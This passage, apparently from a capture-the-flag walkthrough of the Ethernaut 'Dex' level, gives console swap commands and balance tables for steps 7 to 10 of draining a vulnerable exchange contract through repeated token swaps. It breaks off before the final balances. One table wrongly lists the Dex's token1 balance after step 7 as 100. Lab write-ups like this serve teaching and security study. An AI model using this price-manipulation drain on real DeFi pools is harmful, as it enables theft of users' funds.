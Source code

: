 The updated token amounts are now:

|          | Token1 | Token2 |
| :------: | :----: | :----: |
|  `Dex`   |   86   |  110   |
| `player` |   24   |   0    |

7. Perform another swap, exchanging 24 tokens of `token1` with `token2`:

```javascript
> await contract.swap(token1, token2, 24)
```

The updated token amounts become:

|          | Token1 | Token2 |
| :------: | :----: | :----: |
|  `Dex`   |  100   |   80   |
| `player` |   0    |   30   |

8. Continue swapping 30 tokens of `token2` with `token1`:

```javascript
> await contract.swap(token2, token1, 30)
```

After this swap, the updated token amounts are:

|          | Token1 | Token2 |
| :------: | :----: | :----: |
|  `Dex`   |   69   |  110   |
| `player` |   41   |   0    |

9. Perform another swap, exchanging 41 tokens of `token1` with `token2`:

```javascript
> await contract.swap(token1, token2, 41)
```

The updated token amounts are now:

|          | Token1 | Token2 |
| :------: | :----: | :----: |
|  `Dex`   |  110   |   45   |
| `player` |   0    |   65   |

10. Finally, swap the remaining 45 tokens of `token2` with `token1` to complete the draining process:

```javascript
> await contract.swap(token2, token1, 45)
```

After this final swap, the updated token amounts become:
